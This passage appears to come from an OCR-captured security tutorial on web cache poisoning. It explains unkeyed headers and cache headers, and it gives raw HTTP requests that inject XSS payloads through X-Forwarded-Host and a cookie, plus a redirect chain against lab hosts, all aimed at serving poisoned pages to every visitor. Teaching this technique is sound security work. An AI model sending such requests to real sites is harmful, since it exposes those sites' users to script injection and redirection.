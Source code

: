 <script type="text/javascript" src="//<X-Forwarded-For_value>/resources/js/tracking.js"></script>
Elicit a harmful response from the back-end server
With the parameter/header identified check how it is being sanitised and where is it getting reflected or affecting the response from the header. Can you abuse it anyway (perform an XSS or load a JS code controlled by you? perform a DoS?...)

Get the response cached
Once you have identified the page that can be abused, which parameter/header to use and how to abuse it, you need to get the page cached. Depending on the resource you are trying to get in the cache this could take some time, you might need to be trying for several seconds.
The header X-Cache in the response could be very useful as it may have the value miss when the request wasn't cached and the value hit when it is cached.
The header Cache-Control is also interesting to know if a resource is being cached and when will be the next time the resource will be cached again: Cache-Control: public, max-age=1800
Another interesting header is Vary. This header is often used to indicate additional headers that are treated as part of the cache key even if they are normally unkeyed. Therefore, if the user knows the User-Agent of the victim he is targeting, he can poison the cache for the users using that specific User-Agent.
One more header related to the cache is Age. It defines the times in seconds the object has been in the proxy cache.

When caching a request, be careful with the headers you use because some of them could be used unexpectedly as keyed and the victim will need to use that same header. Always test a Cache Poisoning with different browsers to check if it's working.

Exploiting Examples
Easiest example
A header like X-Forwarded-For is being reflected in the response unsanitized>
You can send a basic XSS payload and poison the cache so everybody that accesses the page will be XSSed:

GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"
Note that this will poison a request to /en?region=uk not to /en

Using web cache poisoning to exploit cookie-handling vulnerabilities
Cookies could also be reflected on the response of a page. If you can abuse it to cause an XSS for example, you could be able to exploit XSS in several clients that load the malicious cache response.

GET / HTTP/1.1
Host: vulnerable.com
Cookie: session=VftzO7ZtiBj5zNLRAuFpXpSQLjS4lBmU; fehost=asd"%2balert(1)%2b"
Note that if the vulnerable cookie is very used by the users, regular requests will be cleaning the cache.

Using multiple headers to exploit web cache poisoning vulnerabilities
Sometimes you will need to exploit several unkeyed inputs to be able to abuse a cache. For example, you may find an Open redirect if you set X-Forwarded-Host to a domain controlled by you and X-Forwarded-Scheme to http.If the server is forwarding all the HTTP requests to HTTPS and using the header X-Forwarded-Scheme as the domain name for the redirect. You can control where the page is pointed by the redirect.

GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
Exploiting with limited Varyheader
If you found that the X-Host header is being used as domain name to load a JS resource but the Vary header in the response is indicating User-Agent. Then, you need to find a way to exfiltrate the User-Agent of the victim and poison the cache using that user agent:
